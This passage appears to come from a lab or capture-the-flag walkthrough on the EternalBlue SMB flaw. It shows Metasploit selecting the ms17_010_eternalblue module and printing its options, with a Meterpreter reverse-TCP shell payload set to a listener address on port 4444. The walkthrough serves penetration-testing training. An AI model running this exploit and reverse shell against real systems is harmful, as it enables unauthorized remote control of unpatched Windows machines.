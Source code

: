 >    4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

=> exploit/windows/smb/ms17_010_eternalblue

#### 3) Show options and set the one required value. What is the name of this value ? 

`msf5 > use 2`
  
> [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

`msf5 exploit(windows/smb/ms17_010_eternalblue) > show options`

> Module options (exploit/windows/smb/ms17_010_eternalblue):
> 
>    Name           Current Setting  Required  Description
>   
>    ----           ---------------  --------  -----------
>   
>    RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>   
>    RPORT          445              yes       The target port (TCP)
>   
>    SMBDomain      .                no        (Optional) The Windows domain to use for authentication
>   
>    SMBPass                         no        (Optional) The password for the specified username
>   
>    SMBUser                         no        (Optional) The username to authenticate as
>   
>    VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
>   
>    VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
> 
> Payload options (windows/x64/meterpreter/reverse_tcp):
> 
>    Name      Current Setting  Required  Description
>   
>    ----      ---------------  --------  -----------
>   
>    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
>   
>    LHOST     10.10.220.78     yes       The listen address (an interface may be specified)
>   
>    LPORT     4444             yes       The listen port
> 
> Exploit target:
> 
>    Id  Name
> 
>   --  ----
> 
>   0   Windows 7 and Server 2008 R2 (x64) All Service Packs  
  